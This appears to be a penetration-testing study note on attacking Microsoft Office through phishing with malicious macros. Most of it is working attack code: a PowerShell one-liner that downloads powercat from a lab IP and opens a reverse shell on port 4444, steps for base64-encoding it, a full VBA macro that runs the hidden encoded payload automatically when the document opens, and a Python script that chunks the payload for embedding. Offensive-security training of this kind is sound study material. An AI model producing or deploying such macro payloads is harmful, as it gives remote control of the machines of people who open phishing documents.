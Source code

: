 **Attack and Exploitation of MS Office, MS Office Macros**

Macros and Client Side Exploitation can be leveraged through phishin,  Watering Hole focused Phising  or other social engineering styled attacks.

```
On Windows 11, Network Level Authentication (NLA)1 is enabled by default for RDP connections and rdesktop won't connect. 
Use xfreerdp instead, which supports NLA for non domain-joined machines. 
```

Connect to the Windows 11 machine using xfreerdp with username and password by ip:
`xfreerdp /u:"{{ username }}" /p:"{{ password }}" /v:"{{ip_address}}" +clipboard`

Download and run powercat on the Windows 11 machine:
*Important*

Iconv -t utf-16le converts the string to little endian format, which is required for powershell to execute the command.

`echo "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.122/powercat.ps1');powercat -c 192.168.119.122 -p 4444 -e powershell " | iconv -t utf-16le | base64 -w 0`

```
Sub AutoOpen()
  MyMacro
End Sub

Sub Document_Open()
  MyMacro
End Sub

Sub MyMacro()
  Dim Str As String
  Set ObjWscript = CreateObject("Wscript.Shell")
  Str = Str + "powershell.exe -nop -w hidden -enc "
  Str = Str + "SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUA"
  Str = Str + "YwB0ACAAUwB5AHMAdABlAG0ALgBOAGUA"
  Str = Str + "dAAuAFcAZQBiAEMAbABpAGUAbgB0ACkA"
  Str = Str + "LgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIA"
  Str = Str + "aQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8A"
  Str = Str + "MQA5ADIALgAxADYAOAAuADEAMQA5AC4A"
  Str = Str + "MQAyADIALwBwAG8AdwBlAHIAYwBhAHQA"
  Str = Str + "LgBwAHMAMQAnACkAOwBwAG8AdwBlAHIA"
  Str = Str + "YwBhAHQAIAAtAGMAIAAxADkAMgAuADEA"
  Str = Str + "NgA4AC4AMQAxADkALgAxADIAMgAgAC0A"
  Str = Str + "cAAgADQANAA0ADQAIAAtAGUAIABwAG8A"
  Str = Str + "dwBlAHIAcwBoAGUAbABsACAACgA="
  ObjWscript.Run Str
End Sub
```

Use Python to split up the powershell command into 50 character chunks:

```
str = "powershell.exe -nop -w hidden -e {{ base64_encoded_command }}"

n = 50

for i in range(0, len(str), n):
    print("Str = Str + " + '"' + str[i:i+n] + '"')
```

<img src="../../../_resources/25b0801019a20d17f06a75e07e8a08aa.png" alt="25b0801019a20d17f06a75e07e8a08aa.png" width="882" height="679" class="jop-noMdConv">